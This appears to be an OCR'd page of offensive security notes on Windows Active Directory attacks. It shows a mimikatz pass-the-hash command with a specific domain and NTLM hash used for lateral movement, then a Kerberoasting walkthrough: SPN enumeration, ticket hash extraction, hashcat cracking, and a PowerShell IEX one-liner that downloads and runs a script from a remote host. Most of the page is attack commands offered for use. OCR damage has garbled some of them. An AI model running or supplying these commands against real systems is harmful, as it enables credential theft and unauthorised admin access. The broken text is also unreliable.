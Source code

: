 # Copy that admins NTLM password hash

NTLM: 13b29964cc2480b4ef454c59562e675c

mimikatz# sekurlsa::pth /user:adminaccount.name /domain:usav.org /ntlm:13b29964cc2480b4ef454c59562e675c

# This starts a command prompt.

# Whoami returns normal user but process is running as admin. This allows access to remote systems as that admin.

# This creates lateral movement.

===================
**Kerberoasting:**
**===================**
To  begin make sure Port 88 is available (port forward if needed).
Make sure your time and timezone and the targets time are in sync,
**View Time In Windows**
tzdate /g
**View Time In Linux**
date
**Obtain a Ticket Hash**
  Import-Module Invoke-Kerberoast.ps1
 Invoke-Kerberoast -ErrorAction SilentlyContinue -OutputFormat hashcat
**Crack the obtained ticket hash using certain rule set**

  hashcat -m 13100 .**/**rosborne **/**usr**/**share**/**wordlists**/**rockyou.txt rules**/**_NSAKEY.v2.dive.rule –debug-mode=1 –debug-file=matched.rule –force -0

**First get SPNs with one of the following techniques:**
**Remote via Impacket:**
GetUserSPNs.py -request -dc-ip <ip> <domain>/<user>
**Local via setspn.exe:**
Add-Type -AssemblyName System.IdentityModel

setspn.exe -T <domain> -Q */* | Select-String '^CN' -Context 0,1 |  % { New-Object System.  IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList  $_.Context.PostContext[0].Trim() }

**Local via Powershell:**
Add-Type -AssemblyName System.IdentityModel

New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "HTTP/<user>.<domain>"

**Local via PowerSploit:**

powershell.exe -Command 'IEX (New-Object Net.Webclient).DownloadString("[http://<ip>:<port>/Invoke-Kerberoast.ps1");Invoke-Kerberoast](http://%3Cip%3E:<port>/Invoke-Kerberoast.ps1) -OutputFormat Hashcat
